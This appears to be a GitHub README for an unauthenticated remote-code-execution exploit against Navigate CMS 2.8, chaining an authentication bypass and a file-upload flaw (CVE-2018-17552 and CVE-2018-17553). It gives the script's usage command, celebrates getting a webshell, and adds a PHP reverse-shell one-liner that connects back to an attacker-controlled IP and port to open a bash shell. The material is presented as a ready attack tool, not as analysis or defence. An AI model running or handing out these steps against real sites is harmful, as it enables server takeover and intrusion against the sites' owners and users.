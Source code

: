 # Navigate-CMS-RCE -Unauthenticated-
This module exploits insufficient sanitization in the database::protect method, of Navigate CMS versions 2.8

This script exploits:
- CVE 2018-17552  # Authentication bypass
- CVE 2018-17553  # File upload


## Use Mode
<pre><code>./navigate_RCE.sh navigator.hm</code></pre>

![image](https://user-images.githubusercontent.com/6622069/206307543-97cff429-f41c-471d-9e76-85620708ec84.png)

Getting a simple webshell. Enjoy!

## Tip: Upgrade to ReverseShell
<pre><code>php -r '$sock=fsockopen("192.168.153.133",9000);system("/bin/bash <&3 >&3 2>&3");' </code></pre>

![image](https://user-images.githubusercontent.com/6622069/206309051-e423ad7c-b473-4463-ad82-a1d8606e31ac.png)

